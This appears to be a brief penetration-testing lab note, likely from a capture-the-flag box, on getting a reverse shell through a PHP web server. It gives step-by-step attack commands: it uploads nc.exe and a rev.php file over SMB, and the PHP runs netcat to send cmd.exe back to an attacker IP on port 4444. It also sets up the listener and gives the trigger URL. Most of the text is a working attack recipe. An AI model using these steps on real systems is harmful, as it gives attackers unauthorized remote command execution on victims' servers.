 # Option 1
Upload a php file to a php web server and initiate a reverse shell
https://github.com/pentestmonkey/php-reverse-shell

note: $ip is the IP adddress of the Attack machine


# Option 2

upload file nc.exe from /usr/share/windows-resources/binaries/nc.exe to web root folder on Victim machine via smb  
smb: \> put nc.exe

Create file rev.php
gedit rev.php
<?php
system('nc.exe -e cmd.exe 10.10.14.25 4444')
?>

upload file rev.php to web root folder on Victim machine via smb  
smb: \> put rev.php

─# nc -nvlp 4444                                
listening on [any] 4444 ...

Access file rev.php on web
http://10.129.188.154:8808/rev.php

Back to nc screen, we should have shell now.



